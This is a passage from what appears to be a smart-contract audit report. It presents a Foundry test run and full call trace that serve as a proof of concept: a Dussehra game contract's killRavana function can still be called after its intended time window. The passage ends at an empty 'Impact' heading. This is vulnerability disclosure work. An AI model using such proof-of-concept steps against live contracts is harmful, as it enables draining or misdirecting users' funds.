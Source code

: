 We run the test using `forge test --match-test test_killRavanaAfter13thOfOctober -vvvv` and the result of this test will show a `pass`, indicating that the function call was successful despite being outside the designated period, thus confirming the `existence` of the vulnerability.

```
forge test --match-test test_killRavanaAfter13thOfOctober -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Dussehra.t.sol:CounterTest
[PASS] test_killRavanaAfter13thOfOctober() (gas: 271399)
Traces:
  [271399] CounterTest::test_killRavanaAfter13thOfOctober()
    ├─ [0] VM::startPrank(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   └─ ← [Return] 
    ├─ [0] VM::deal(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
    ├─ [169497] Dussehra::enterPeopleWhoLikeRam{value: 1000000000000000000}()
    │   ├─ [94460] RamNFT::mintRamNFT(player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84], tokenId: 0)
    │   │   └─ ← [Stop] 
    │   ├─ emit PeopleWhoLikeRamIsEntered(competitor: player1: [0x7026B763CBE7d4E72049EA67E89326432a50ef84])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(1728691201 [1.728e9])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(organiser: [0xe81f335f0c35d66819c4dF203d728f579880b4b1])
    │   └─ ← [Return] 
    ├─ [33984] ChoosingRam::selectRamIfNotSelected()
    │   ├─ [2360] RamNFT::organiser() [staticcall]
    │   │   └─ ← [Return] organiser: [0xe81f335f0c35d66819c4dF203d728f579880b4b1]
    │   ├─ [361] RamNFT::tokenCounter() [staticcall]
    │   │   └─ ← [Return] 1
    │   ├─ [1224] RamNFT::getCharacteristics(0) [staticcall]
    │   │   └─ ← [Return] CharacteristicsOfRam({ ram: 0x7026B763CBE7d4E72049EA67E89326432a50ef84, isJitaKrodhah: false, isDhyutimaan: false, isVidvaan: false, isAatmavan: false, isSatyavaakyah: false })
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(1728777601 [1.728e9])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324])
    │   └─ ← [Return] 
    ├─ [37874] Dussehra::killRavana()
    │   ├─ [376] ChoosingRam::isRamSelected() [staticcall]
    │   │   └─ ← [Return] true
    │   ├─ [0] organiser::fallback{value: 500000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.24ms (171.79µs CPU time)

Ran 1 test suite in 586.51ms (1.24ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Impact